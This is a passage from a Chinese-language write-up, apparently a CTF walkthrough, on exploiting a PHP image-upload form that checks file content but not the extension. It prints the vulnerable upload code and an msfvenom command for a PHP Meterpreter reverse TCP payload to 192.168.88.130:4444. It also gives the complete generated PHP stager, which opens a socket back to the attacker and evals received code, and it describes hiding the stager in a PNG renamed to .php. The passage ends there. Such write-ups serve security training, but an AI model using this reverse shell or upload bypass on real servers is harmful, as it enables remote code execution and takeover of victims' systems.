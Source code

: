 ```
    $rand_number = rand(1,100);
    $target_dir = "uploads/";
    $target_file = $target_dir . md5(basename($_FILES["file"]["name"].$rand_number));
    $file_name = $target_dir . basename($_FILES["file"]["name"]);
    $uploadOk = 1;
    $imageFileType = strtolower(pathinfo($file_name,PATHINFO_EXTENSION));
    $type = $_FILES["file"]["type"];
    $check = getimagesize($_FILES["file"]["tmp_name"]);
    if($check["mime"] == "image/png" || $check["mime"] == "image/gif"){
        $uploadOk = 1;
    }else{
        $uploadOk = 0;
        echo ":)";
    }
  if($uploadOk == 1){
      move_uploaded_file($_FILES["file"]["tmp_name"], $target_file.".".$imageFileType);
      echo "File uploaded /uploads/?";
  }
}
?>
 
</body>
</html>
```

给了我们上传文件的源码，通过审查我们发现，只允许上传PNG或GIF格式的图片，校验方式是校验文件内容（实际校验的是文件开头几个标志文件类型的字节，PNG格式为0x890x500x4E0x470x0D0x0A0x1A0x0A，GIF格式为GIF98)，没有校验文件后缀;然后通过校验的文件会保存在uploads目录中，但是文件名是一个随机生成的md5值，而后缀保持上传文件的后缀不变....
所以我们可以先做一个图片马，主要是反弹shell的马,我们利用Metasploit来生成：

```
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.88.130 lport=4444 -f raw
```

![818602_PSD29T2Z29J3TXN](/blog.github.io/images/818602_PSD29T2Z29J3TXN.png)
把生成的payload：

```
/*<?php /**/ error_reporting(0); $ip = '192.168.88.130'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
```

保存在hack.php中，然后随便找一个png图片，将hack.php添加到图片中去,然后将png图片后缀改为php：
